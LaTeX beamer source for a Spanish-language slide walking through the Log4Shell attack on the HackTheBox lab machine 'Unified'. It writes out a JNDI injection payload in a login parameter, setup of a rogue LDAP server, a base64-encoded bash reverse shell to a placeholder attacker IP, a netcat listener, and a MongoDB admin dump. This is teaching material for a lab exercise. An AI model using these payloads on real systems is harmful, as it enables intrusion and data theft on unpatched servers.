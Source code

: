 \documentclass[aspectratio=169,11pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\newcommand{\lead}[1]{{\color{uznavy}\bfseries #1}\par\smallskip}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.92\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{Log4Shell en HackTheBox: máquina Unified}
\footnotesize
  \begin{itemize}
  \item Objetivo: UniFi Network Application con Log4j vulnerable. Vector: el parámetro \cmd{remember} del login interpreta expresiones JNDI.
  \end{itemize}
\lead{Paso 1 --- Confirmar la vulnerabilidad}
\cmdbox{\{"remember":"\$\{jndi:ldap://TU\_IP/test\}","username":"x","password":"x"\}\\
tcpdump -i tun0 port 389 \ \ \# confirma la petición LDAP entrante}
\lead{Paso 2 --- Servidor LDAP malicioso (RogueJNDI)}
\cmdbox{git clone https://github.com/veracode-research/rogue-jndi \&\& cd rogue-jndi\\
mvn package -q\\
echo \textquotesingle{}bash -c "bash -i >/dev/tcp/TU\_IP/4444 0>\&1"\textquotesingle{} | base64\\
java -jar target/RogueJndi-1.1.jar --command \textbackslash{}\\
\ \ "bash -c \{echo,BASE64\_PAYLOAD\}|\{base64,-d\}|\{bash,-i\}" --hostname TU\_IP}
\lead{Paso 3 --- Lanzar el exploit y recoger la shell}
\cmdbox{\{"remember":"\$\{jndi:ldap://TU\_IP:1389/o=tomcat\}","username":"x"\}\\
nc -lvp 4444 \ \ \# recibe la reverse shell\\[2pt]
\# Postexplotación: MongoDB interno\\
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"}
  \begin{itemize}
  \item Fíjate en que el \cmd{tcpdump} del paso 1 es la confirmación fuera de banda: aunque la aplicación no devuelva nada, la petición LDAP saliente demuestra que el payload se ha interpretado.
  \end{itemize}
\end{frame}

\section{Exploits in the wild}
\end{document}
